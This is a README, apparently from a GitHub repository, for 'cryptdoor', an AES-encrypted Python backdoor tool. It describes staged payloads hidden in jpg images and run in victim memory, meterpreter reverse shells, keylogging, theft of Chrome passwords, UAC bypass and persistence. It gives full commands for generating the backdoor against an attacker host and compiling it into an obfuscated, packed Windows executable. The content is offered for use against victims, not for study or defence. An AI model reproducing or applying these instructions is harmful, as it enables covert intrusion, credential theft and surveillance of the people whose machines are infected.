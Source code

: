 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.  
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).  
We can also download and upload files over the secure AES encrypted connection.  
Keylogging is implemented for windows using pyHook.  
All traffic apart from traffic meterpreter makes are encrypted with AES.  
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).  

Staged payload
=========

The main body of backdoor code is hosted at a url and download at runtime by the backdoor.py stub.  
This means that the actual backdoor code only exists in the victim memory.  
The backdoor payload can be hosted on tempsend.com or at a custom url and downloaded and exec'ed at runtime by the 
backdoor.py script.  
The code will be hidden in a jpg that remains valid so it can be viewed.  
The key for decrypting the payload code is kept in the downloader, so if anyone finds it online, they will not be able
to decrypt it.  

Usage
=========

    usage: ./cryptdoor.py [options]

    optional arguments:
      -h, --help            show this help message and exit
      -i HOSTNAME, --hostname HOSTNAME
                            Ip or hostname to connect back to.
      -p PORT, --port PORT  Port to connect back to.
      -e EXPIRE, --expire EXPIRE
                            Payload Life: h=hour, d=day, w=week, m=month
      -u CUSTOMURL, --customurl CUSTOMURL
                            Host the generated jpg at this url.
      -f CUSTOMIMAGE, --customimage CUSTOMIMAGE
                            Backdoor this jpg instead of a random choice from
                            stubs/images.
      -a, --persistence     Enable Auto-persistence.
      -b BACKDOORNAME, --backdoorname BACKDOORNAME
                            Name of backdoor (default backdoor.py).
      -s SERVERNAME, --servername SERVERNAME
                            Name of server (default server.py).

cryptdoor.py will make the backdoor and server.
The most simple syntax is:

        ./cryptdoor.py -i host -p port -e d

You can add a -a to attempt automatic persistence:

        ./cryptdoor.py -i host -p port -e d -a

Use your own jpg as the backdoor:

        ./cryptdoor.py -i host -p port -e d -f lol.jpg

Host the produced jpg at a custom url instead of uploading to tempsend:

        ./cryptdoor.py -i host -p port -u http://myddns.us.to/cat.jpg

host and port refer to the host and port of the listening server (attacker).  

These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd terminal and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Advanced Compilation
=========

You can compile the exe with optimized python files with:

        python -O C:\Python27\Scripts\pyinstaller-script.py -F -w backdoor.py

If you want to upx pack the final exe to decrease final size include tools/upx.exe in the same directory as backdoor.py when you compile with pyinstaller.

Proxies
=========  

NOTE: Proxying is temporarily disabled. Will be back soon.

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

